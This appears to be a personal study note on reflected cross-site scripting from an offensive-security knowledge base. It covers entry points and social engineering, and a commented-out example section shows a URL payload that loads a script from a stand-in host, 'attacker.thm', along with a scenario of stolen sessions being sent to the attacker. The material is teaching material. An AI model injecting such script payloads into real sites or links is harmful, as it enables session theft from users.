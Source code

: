 ```yaml
---
title: Reflected XSS
---
```


**Reflected XSS** is the type of [[knowledge/off-sec/pentesting/xss|XSS]] attack where the **payload included in HTTP request** **is included in the webpage source without validation**.

Since it's a reflected XSS, the harmful code isn't saved in the remote web app. To execute the code on the target's host, some [[social engineering]] is needed (e.g. sending a faulty link via email).

## Possible points of entry

- URL Query Params
- URL file path
- HTTP headers (although unlikely exploitable in practice)

Once you find the entry point and the way to reflect data in the webpage source, you need to confirm that you can successfully run a JS/PHP code through the payload (code might or might not work depending on where the payload is reflected).

## My Write-ups

- [[knowledge/off-sec/write-ups/dvwa/dvwa-xss-reflected-low]]

<!-- 
## Example

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the `error` parameter in the query string.

```
https://website.thm/?error=Invalid input Detected
```

If the application doesn't check the contents of the error parameters, we could insert malicious code:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js'></script>
```

This would get rendered as

```html
<div class-"alert alert-danger">
	<p>
		<script src="https://attacker.thm/evil.js"></script>
	</p>
</div>
```

## Example scenario

1. Attacker sends a link with malicious [payload](knowledge/off-sec/glossary/payload.md) to a victim
2. Victim clicks the link and is taken to a vulnerable site
3. Link containing attacker's script is executed on website
4. The gathered data (e.g. stolen session) is sent back to the attacker

The attacker could send links or embed them into an `iframe` to execute code on the victim browser, potentially revealing sensitive information.


---
